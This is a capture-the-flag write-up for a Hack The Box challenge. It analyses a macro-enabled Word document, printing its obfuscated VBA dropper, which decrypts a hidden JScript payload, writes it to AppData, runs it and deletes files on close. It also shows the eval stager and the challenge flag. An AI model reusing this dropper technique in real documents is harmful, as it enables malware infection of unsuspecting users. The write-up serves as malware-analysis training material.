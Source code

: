 # HTB Cyber Apocalypse 2024: Hacker Royale - Game Invitation

## Challenge

> In the bustling city of KORP™, where factions vie in The Fray, a mysterious game emerges. As a seasoned faction member, you feel the tension growing by the minute. Whispers spread of a new challenge, piquing both curiosity and wariness. Then, an email arrives: "Join The Fray: Embrace the Challenge." But lurking beneath the excitement is a nagging doubt. Could this invitation hide something more sinister within its innocent attachment?

## Metadata

- Difficulty: hard
- Creator: `thewildspirit`
- Files: [`invitation.docm`](files/invitation.docm)
- Docker: no
- Tags: `macro`, `vba`, `xor`, `jscript`
- Points: `300`
- Number of solvers: 

## Solution

### Initial analysis

We got a `.docm` file which is a macro enabled Word document.

Using the `olevba` tool, we can get the source code of the macro ([`macro.vb`](files/macro.vb)).

```vb
Public IAiiymixt As String
Public kWXlyKwVj As String


Function JFqcfEGnc(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 50
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
JFqcfEGnc = True
End Function

Sub AutoClose()
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
aMUsvgOin.DeleteFile kWXlyKwVj & "\*.*", True
Set aMUsvgOin = Nothing
End Sub

Sub AutoOpen()
On Error GoTo MnOWqnnpKXfRO
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then

Else

Dim gIvqmZwiW
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
gIvqmZwiW = FreeFile
Open (ActiveDocument.FullName) For Binary As #gIvqmZwiW
Dim CbkQJVeAG() As Byte
ReDim CbkQJVeAG(file_length)
Get #gIvqmZwiW, 1, CbkQJVeAG
Dim SwMbxtWpP As String
SwMbxtWpP = StrConv(CbkQJVeAG, vbUnicode)
Dim N34rtRBIU3yJO2cmMVu, I4j833DS5SFd34L3gwYQD
Dim vTxAnSEFH
    Set vTxAnSEFH = CreateObject("vbscript.regexp")
    vTxAnSEFH.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
    Set I4j833DS5SFd34L3gwYQD = vTxAnSEFH.Execute(SwMbxtWpP)
Dim Y5t4Ul7o385qK4YDhr
If I4j833DS5SFd34L3gwYQD.Count = 0 Then
GoTo MnOWqnnpKXfRO
End If
For Each N34rtRBIU3yJO2cmMVu In I4j833DS5SFd34L3gwYQD
Y5t4Ul7o385qK4YDhr = N34rtRBIU3yJO2cmMVu.FirstIndex
Exit For
Next
Dim Wk4o3X7x1134j() As Byte
Dim KDXl18qY4rcT As Long
KDXl18qY4rcT = 13082
ReDim Wk4o3X7x1134j(KDXl18qY4rcT)
Get #gIvqmZwiW, Y5t4Ul7o385qK4YDhr + 81, Wk4o3X7x1134j
If Not JFqcfEGnc(Wk4o3X7x1134j(), KDXl18qY4rcT + 1) Then
GoTo MnOWqnnpKXfRO
End If
kWXlyKwVj = Environ("appdata") & "\Microsoft\Windows"
Set aMUsvgOin = CreateObject("Scripting.FileSystemObject")
If Not aMUsvgOin.FolderExists(kWXlyKwVj) Then
kWXlyKwVj = Environ("appdata")
End If
Set aMUsvgOin = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
IAiiymixt = kWXlyKwVj & "\" & "mailform.js"
Open (IAiiymixt) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + IAiiymixt + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
MnOWqnnpKXfRO:
Close #K764B5Ph46Vh
ActiveDocument.Save
End If
End Sub
```

If we clean up the macro we can figure out the following functionalities ([`macro-cleaned.vb`](files/macro-cleaned.vb)).

1. If we open the document the `AutoOpen()` subroutine will start
2. It check the domain of the machine (`GAMEMASTERS.local`)
3. It reads the bytes of the document (which is currently opened) into memory
4. Searches for a Base64-like string in the document (`sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa`)
5. It gets some part of the `docm` file
6. Reads 13082 bytes after the string is found
7. Decrypts the read bytes using XOR-based algorithm
8. Saves the result in the `%AppData%\Microsoft\Windows` folder as `mailfrom.js`
9. Executes the `mailfrom.js` file with an argument (`vF8rdgMHKBrvCoCp0ulm`)

### Decryption

If we search for the `sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa` string in the `docm` document, we can identify that the [`image1.jpg`](files/image1.jpg) in the document contains it around `0x0001d5e0`.

The macro basically gets the bytes of the image located after the random string, which is exactly `13082` bytes.

If we run the XOR decryption reimplemented in Python ([`solve.py`](files/solve.py)), it gives gibberish, not valid JavaScript code, but if we brute-force the first byte (`xor_key`) and at 45, we get a valid JS code ([`mailform.js`](files/mailform.js)).

### Second stage (`mailfrom.js`)

If we clean up the code a little bit ((`mailfrom-cleaned.js`)[files/mailfrom-cleaned.js]) At the beginning, the 5th statement is an `eval`.

```js
var lVky=WScript.Arguments;
var DASz=lVky(0);
var Iwlh=lyEK();
Iwlh=JrvS(Iwlh);
Iwlh=xR68(DASz,Iwlh);
eval(Iwlh);
```

We can execute the JS code until `eval` in a browser, we just need the argument from the macro: `vF8rdgMHKBrvCoCp0ulm`

### Third stage

The result is another JS code, which has the flag as Base64 in the `Cookie` header ([`final.js`](files/final.js))

```js
S47T.SETREQUESTHEADER("Cookie:","flag=SFRCe200bGQwY3NfNHIzX2czdHQxbmdfVHIxY2tpMTNyfQo=");
```

Flag: `HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}`